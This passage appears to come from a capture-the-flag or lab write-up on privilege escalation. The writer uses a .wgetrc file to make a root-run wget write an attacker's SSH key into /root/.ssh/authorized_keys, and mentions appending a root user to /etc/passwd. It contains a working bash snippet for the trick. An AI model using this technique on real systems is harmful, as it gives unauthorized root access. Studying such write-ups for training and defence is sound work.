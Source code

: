 ![](screenshots/wgetrc-file-append.png)

with that we can append a root user in `/etc/passwd` file or add ssh public key in root ssh directory.

Lets create ssh `authorized_keys` in `/root/.ssh` and put our ssh public key.
```bash
cat <<EOF > .wgetrc
# Set the output filename—the same as ‘-O file’.
#
output_document = /root/.ssh/authorized_keys
EOF
```

* Before running make sure that `/usr/bin/netutils` executing wget is recursive mode with `-r`.

![](screenshots/wgetrc-rooted.png)